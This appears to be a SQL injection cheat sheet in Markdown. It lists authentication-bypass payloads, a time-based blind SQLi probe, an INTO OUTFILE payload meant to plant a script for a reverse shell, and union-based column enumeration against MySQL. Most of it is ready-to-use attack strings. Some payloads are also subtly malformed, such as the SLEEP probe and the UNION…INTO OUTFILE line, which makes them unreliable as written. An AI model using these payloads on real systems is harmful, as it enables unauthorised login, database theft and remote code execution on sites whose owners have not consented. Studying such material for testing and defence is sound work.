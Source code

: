 ## Authentication bypass methods:
---
```
admin ' -- -
admin 'OR '1'='1
admin 'OR '1'='1
admin ' or 1=1--
admin ' or 1=1;#
admin ' OR '1'='1
admin ' OR 1='
admin ' OR 1=1;--
'OR '1'='1
'OR '1'='1
' or 1=1--
' or 1=1;#
'OR '1'='1
' OR 1='

```

## Union based SQL Injection
---
#### NOTE
*The following is using MySQL as the example DBMS to demonstrate the enumeration methodology to perform Union based SQL Injection.*

### 1. Find SQLi
use common methods to cause an error in the parsing of data to the database. if no errors are returned you can check for blind sqli with a sleep command:
```
' SLEEP(15); --
```
in this example, if the databse takes 15 seconds to return any results, it could be an indication of a vulnerable SQL perameter. 

You can also output a script to a file on the machine. If there is a way of executing the script, such as storing in the web directory and running it, a reverse shell might be achievable.
```
' UNION SELECT null AND '[script]' INTO OUTFILE '[location]' ; #
```

### 2. Find Columns (use null)
The UNION operator is used to combine the result-set of two or more SELECT statements. To combine the result of two select statements in a single query, the amount of columns selected in the UNION statement must match the backend query. If the columns do not match, a union will not work. The first query to return without an error is the amount of columns in the current table you are adding to 
```
' UNION SELECT null, null, null ; # = 3 columns
' UNION SELECT null, null, null, null ; # = 4 columns & Returns error, 
```
We now know we have 3 columns.
| ProductName | ProductID | OrderID |
|----|----|----|
| Socks | 12543 | 8756|
| Football | 25631 | 2953 |
| Gloves | 52316| 1235 |
| null | null | null |
